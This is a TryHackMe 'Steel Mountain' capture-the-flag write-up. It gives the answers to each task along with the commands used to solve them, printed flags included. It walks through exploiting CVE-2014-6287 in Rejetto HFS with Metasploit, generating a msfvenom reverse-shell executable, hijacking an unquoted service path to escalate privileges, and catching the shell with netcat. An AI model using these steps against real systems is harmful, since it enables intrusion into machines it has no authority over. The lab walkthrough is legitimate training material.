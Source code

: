 # TryHackMe - Steel Mountain

> Sep 20, 2021

```bash
export IP=10.10.28.167
```

## Task 1 

1. Who is the employee of the month? 

	`Answer: Bill Harper`

	**Method:** Found inspecting the image element of the web page.

## Task 2 

1. Scan the machine with nmap. What is the other port running a web server on?

	`Answer: 8080`

	**Method:** Nmap scan

2. Take a look at the other web server. What file server is running?

	`Answer: Rejetto HTTP File Server`

	**Method:** Nav to port 8080, check the server information.

3. What is the CVE number to exploit this file server?

	`Answer: CVE-2014-6287`

	**Method:** 

		Use searchsploit which allows you to see vulns.
		
		Search for the exploits:
		>$ searchsploit "Rejetto HTTP File Server"

		When a exploit is found, use -x with the path to gain more information.
		>$ searchsploit -x "windows/remote/34668.txt"

4. Use Metasploit to get an initial shell. What is the user flag?

	`Answer: b04763b6fcf51fcd7c13abc7db4fd365`

	**Method:**

		Use metasploit:
		>$ sudo /opt/metasploit-framework/msfconsole

		Search for your exploit:
		>$ search httpfileserver

		Select:
		>$ use 0

		Look at options:
		>$ show options

		Assign ports/hosts:
		>$ set LHOST tun0
		>$ set RPORT 8080
		>$ set SRVPORT 9090
		>$ set RHOST 10.10.108.242

		Run:
		>$ run

		Now connected, navigate around:
		>$ getuid
		>$ dir

		Navigate to the Desktop dir and cat the flag.

## Task 3

1. 	Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

	`Answer: AdvancedSystemCareService9`

	**Method:** After starting the powershell script, running the `Invoke-AllChecks` command uncovers this.

2. What is the root flag?

	`Answer: 9af5f314f57607c00fd09803a587db80`

	**Method:**
    
		Use msfvenom to generate a reverse shell:
		>$ msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=5555 -f exe -o shell5555.exe

		Upload the shell to meterpretor:
		>$ upload shell5555.exe in the /Windows/Tasks dir.

		Stop the service then copy the shell5555.exe to the correct dir.
		>$ net stop AdvancedSystemCareService9
		>$ copy shell5555.exe "C:/Program Files (x86)/IObit/Advanced Systemcare/ASCService.exe"
		>$ net start AdvancedSystemCareService9

		Start nc on host:
		>$ nc -lnvp 5555

## Task 4

1. What powershell -c command could we run to manually find out the service name? 

	`Answer: powershell -c "Get-Service"`
